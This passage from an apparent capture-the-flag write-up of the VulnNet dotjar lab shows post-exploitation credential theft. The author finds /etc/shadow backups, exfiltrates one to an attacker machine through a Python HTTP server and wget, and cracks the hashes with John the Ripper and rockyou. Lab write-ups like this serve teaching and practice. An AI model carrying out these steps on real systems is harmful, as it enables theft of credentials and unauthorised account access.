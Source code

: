 ```shell
udp  UNCONN 0       0                       [::]:38227           [::]:*                                    
tcp  LISTEN 0       128            127.0.0.53%lo:53           0.0.0.0:*                                    
tcp  LISTEN 0       1         [::ffff:127.0.0.1]:8005               *:*     users:(("java",pid=408,fd=85)) 
tcp  LISTEN 0       100                        *:8009               *:*     users:(("java",pid=408,fd=69)) 
tcp  LISTEN 0       100                        *:8080               *:*     users:(("java",pid=408,fd=63))
```

**`/etc/shadow` backup in `/var/backup`:**
```shell
web@vulnnet-dotjar:/$ ls -lah /var/backups/
total 2.6M
drwxr-xr-x  2 root root   4.0K Jan 23 08:13 .
drwxr-xr-x 13 root root   4.0K Jan 15  2021 ..
[...]
-rw-------  1 root root    857 Jan 15  2021 group.bak
-rw-------  1 root shadow  711 Jan 15  2021 gshadow.bak
-rw-------  1 root root   1.8K Jan 15  2021 passwd.bak
-rw-r--r--  1 root root    485 Jan 16  2021 shadow-backup-alt.gz
-rw-------  1 root shadow 1.2K Jan 16  2021 shadow.bak
```

**Let's transfer the `shadow-backup-alt.gz` to our attacker machine!**
```shell
web@vulnnet-dotjar:/$ cd /var/backups/
web@vulnnet-dotjar:/var/backups$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:16:31(HKT)]
└> wget http://$RHOSTS:8000/shadow-backup-alt.gz
```

**Then use `gunzip` to decompress the `gz` file:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:16:41(HKT)]
└> gunzip shadow-backup-alt.gz
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:17:34(HKT)]
└> cat shadow-backup-alt                        
root:$6$F{Redacted}:18643:0:99999:7:::
[...]
jdk-admin:$6$P{Redacted}:18643:0:99999:7:::
web:$6$hmf.N2Bt$F{Redacted}:18643:0:99999:7:::
```

It's a `/etc/shadow` file!

**Let's crack those password hashes:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|15:17:36(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt shadow-backup-alt
[...]
{Redacted}        (jdk-admin)
```
